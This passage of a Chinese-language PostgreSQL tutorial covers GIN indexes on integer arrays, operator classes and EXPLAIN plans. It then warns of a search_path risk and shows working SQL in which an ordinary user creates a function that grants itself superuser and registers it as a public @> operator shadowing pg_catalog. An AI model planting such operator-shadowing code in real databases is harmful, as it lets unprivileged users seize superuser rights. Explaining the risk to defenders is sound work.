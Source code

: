 2、方法2，创建索引时，使用OP对应的OPS。    
    
```    
把原来的索引删掉，改成下面，或者你保留两个索引接口也可以（当然通常我们只需要一个，只要调用的OP与INDEX内的OPS对应即可）    
    
drop index idx_t1_3;    
    
create index idx_t1_3 on t1 using gin (arr gin__int_ops);    
```    
    
现在反过来了，默认的public的OP走了索引。    
    
```    
postgres=# explain select count(*) from t1 where arr OPERATOR(public.@>) array[1,2];    
                                    QUERY PLAN                                         
-----------------------------------------------------------------------------------    
 Aggregate  (cost=68581.20..68581.21 rows=1 width=8)    
   ->  Bitmap Heap Scan on t1  (cost=986.77..68362.95 rows=87300 width=0)    
         Recheck Cond: (arr @> '{1,2}'::integer[])    
         ->  Bitmap Index Scan on idx_t1_3  (cost=0.00..964.95 rows=87300 width=0)    
               Index Cond: (arr @> '{1,2}'::integer[])    
(5 rows)    
    
postgres=# explain select count(*) from t1 where arr OPERATOR(pg_catalog.@>) array[1,2];    
                            QUERY PLAN                                
------------------------------------------------------------------    
 Aggregate  (cost=248675.25..248675.26 rows=1 width=8)    
   ->  Seq Scan on t1  (cost=0.00..248457.00 rows=87300 width=0)    
         Filter: (arr OPERATOR(pg_catalog.@>) '{1,2}'::integer[])    
(3 rows)    
```    
    
## 安全风险注意    
1、只要有权限，用户可以在public下面定义一堆与pg_catalog下面重名的op，当超级用户执行一些SQL时，（如果设置了search_path中包含public，）可能优先使用这些用户创建的public.OP，从而导致安全问题。    
    
例如普通用户在函数中提权。    
    
例子:    
    
普通用户创建函数，提权。    
    
```    
postgres=> create or replace function hack(_int4,_int4) returns boolean as $$                  
declare    
begin    
  alter role test superuser; raise notice 'hacked';    
  return $1 operator(pg_catalog.@>) $2;    
end;    
$$ language plpgsql strict security invoker;    
CREATE FUNCTION    
```    
    
普通用户创建pg_catalog里面同名的OP到public下面    
    
```    
postgres=> create operator public.@> (procedure = hack, leftarg='_int4', rightarg='_int4');    
CREATE OPERATOR    
```    
    